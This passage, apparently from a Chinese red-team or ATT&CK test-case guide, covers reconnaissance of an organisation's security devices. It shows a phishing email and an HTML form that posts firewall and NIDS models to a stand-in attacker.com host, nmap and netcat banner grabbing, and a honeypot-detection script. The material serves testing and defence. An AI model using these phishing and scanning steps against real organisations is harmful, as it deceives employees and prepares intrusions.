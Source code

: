 #### 测试案例 3：钓鱼收集网络安全设备信息
**关联技术**：T1590.006（网络安全设备信息收集）、T1566（钓鱼）  
**说明**：  
- 攻击者通过伪造的邮件或调查问卷，诱导员工泄露防火墙、NIDS 或代理设备的型号和版本信息。  
**示例操作**：
- 发送伪造邮件：  
  ```
  Subject: 网络安全设备调查
  Body: 请提供您公司使用的防火墙或 NIDS 型号以协助技术支持：http://fake-survey.com
  ```
- 伪造调查页面（HTML 伪代码）：  
  ```html
  <form action="http://attacker.com/collect" method="POST">
      防火墙型号: <input type="text" name="firewall">
      NIDS 型号: <input type="text" name="nids">
      <input type="submit" value="提交">
  </form>
  ```
**输出示例**（攻击者服务器日志）：
```
POST /collect HTTP/1.1
firewall=Cisco ASA 5525-X&nids=Snort 3.1
```
**说明**：  
- 钓鱼攻击可直接收集网络安全设备信息，为后续攻击提供基础。  
- 关联 T1590.006：通过钓鱼获取网络安全设备信息。

#### 测试案例 4：通过主动扫描识别网络安全设备
**关联技术**：T1590.006（网络安全设备信息收集）、T1046（网络服务扫描）  
**说明**：  
- 攻击者通过端口扫描或 Banner 抓取识别目标网络中部署的防火墙、代理或 NIDS 设备。  
**示例操作**：
```bash
# 使用 Nmap 扫描目标网络
nmap -sV -p 80,443,8080 192.168.1.10
# 或使用 netcat 抓取 Banner
nc 192.168.1.10 443
HEAD / HTTP/1.0
```
**输出示例**：
```
Nmap scan report for 192.168.1.10
Port 443/tcp open  https    Fortinet FortiGate 100F
```
**说明**：  
- `nmap -sV` 可识别防火墙或代理设备的型号，Banner 抓取可能暴露设备信息。  
- 关联 T1590.006：通过主动扫描收集网络安全设备信息。

#### 测试案例 5：通过 WEB 蜜罐识别技术收集信息
**关联技术**：T1590.006（网络安全设备信息收集）  
**说明**：  
- 攻击者使用专门工具或插件（如红队常用的 WEB 蜜罐识别阻断插件）检测目标网络中的蜜罐或防御设备。  
**示例操作**：
- 使用浏览器插件或脚本扫描目标网站，识别是否存在蜜罐（如 T-Pot 或 Cowrie）。  
**示例工具**（参考 FreeBuf 文章）：
```bash
# 使用红队工具检测蜜罐
python detect_honeypot.py --url https://example.com
```
**输出示例**：
```
URL: https://example.com
Security Device: T-Pot Honeypot detected
```
**说明**：  
- 红队工具可帮助攻击者识别蜜罐或其他防御设备，规避检测。  